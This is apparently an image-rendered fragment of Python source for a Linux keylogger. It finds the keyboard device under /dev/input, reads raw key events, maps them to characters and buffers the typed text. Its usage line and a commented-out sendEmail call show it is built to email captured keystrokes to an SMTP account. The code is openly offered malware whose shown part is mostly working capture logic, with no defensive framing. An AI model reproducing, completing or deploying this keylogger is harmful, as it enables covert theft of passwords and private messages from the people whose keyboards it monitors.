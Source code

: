 ```python

        pattern = re.compile("EV=120013")
        for idx, elt in enumerate(handlers):
            if pattern.search(elt):
                line = handlers[idx - 1]
        pattern = re.compile("event[0-9]")
        infile_path = "/dev/input/" + pattern.search(line).group(0)

    FORMAT = 'llHHI'
    EVENT_SIZE = struct.calcsize(FORMAT)

    in_file = open(infile_path, "rb")

    event = in_file.read(EVENT_SIZE)
    typed = ""

    while event:
        (_, _, type, code, value) = struct.unpack(FORMAT, event)

        if code != 0 and type == 1 and value == 1:
            if code in qwerty_map:
                typed += qwerty_map[code]
        if len(typed) > BUF_SIZE:
            #sendEmail(typed)
            print(typed)

            typed = ""
        event = in_file.read(EVENT_SIZE)

    in_file.close()


def usage():
    print("Usage : ./keylogger [your email] [your password] [smtp server] [tls/notls] [buffer_size]") # noqa


def init_arg():
    if len(sys.argv) < 5:
        usage()
        exit()
    global EMAIL
    global SERVER
    global USE_TLS
    global BUF_SIZE
    global PASS
    EMAIL = sys.argv[1]
    PASS = sys.argv[2]
    SERVER = sys.argv[3]
    if sys.argv[4] is "tls":
        USE_TLS = True
    else:
        USE_TLS = False
    BUF_SIZE = int(sys.argv[5])


if __name__ == "__main__":
    init_arg()
    main()
```
